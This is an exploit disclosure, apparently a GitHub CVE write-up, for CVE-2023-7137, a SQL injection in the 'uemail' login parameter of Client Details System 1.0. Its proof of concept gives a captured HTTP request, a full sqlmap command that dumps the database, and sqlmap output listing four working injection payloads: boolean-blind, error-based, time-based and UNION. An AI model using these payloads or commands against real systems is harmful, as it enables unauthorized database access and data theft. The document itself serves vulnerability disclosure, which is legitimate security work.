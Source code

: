 # CVE-2023-7137_Client_Details_System-SQL_Injection_1
+ **Exploit Title:** CVE-2023-7137_Client_Details_System-SQL_Injection_1
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7137

## References: 
+ **CVE-2023-7137:** https://vuldb.com/?id.249140
+ https://www.cve.org/CVERecord?id=CVE-2023-7137
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7137
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7137
+ https://www.exploit-db.com/exploits/51880
+ https://packetstormsecurity.com/files/177565/Client-Details-System-1.0-SQL-Injection.html


## Description:
Client Details System 1.0 allows SQL Injection via parameter 'uemail' in "/clientdetails/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.


## Proof of Concept:
+ Go to the User Login page: "http://localhost/clientdetails/"
+ Fill email and password.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/ HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 317
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/clientdetails/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

uemail=user@mail.com&login=LOG+IN&password=P@ass123
```

+ Use sqlmap to exploit. In sqlmap, use 'uemail' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p uemail --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: uemail (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: uemail=user@mail.com' OR NOT 6660=6660-- FlRf&login=LOG IN&password=P@ass123

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uemail=user@mail.com' AND (SELECT 6854 FROM(SELECT COUNT(*),CONCAT(0x717a717a71,(SELECT (ELT(6854=6854,1))),0x7176627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Oxlo&login=LOG IN&password=P@ass123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uemail=user@mail.com' AND (SELECT 5335 FROM (SELECT(SLEEP(5)))qsPA)-- pwtE&login=LOG IN&password=P@ass123

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: uemail=user@mail.com' UNION ALL SELECT NULL,CONCAT(0x717a717a71,0x45575259495444506f48756469467471555975554d6f794d77677a4f50547145735052567278434f,0x7176627871),NULL,NULL,NULL,NULL,NULL-- -&login=LOG IN&password=P@ass123
---
[14:58:11] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:58:11] [INFO] fetching current database
current database: 'loginsystem'
```

+ current database: `loginsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/bfbec122-5b56-42df-beda-41dfdcaf527a)
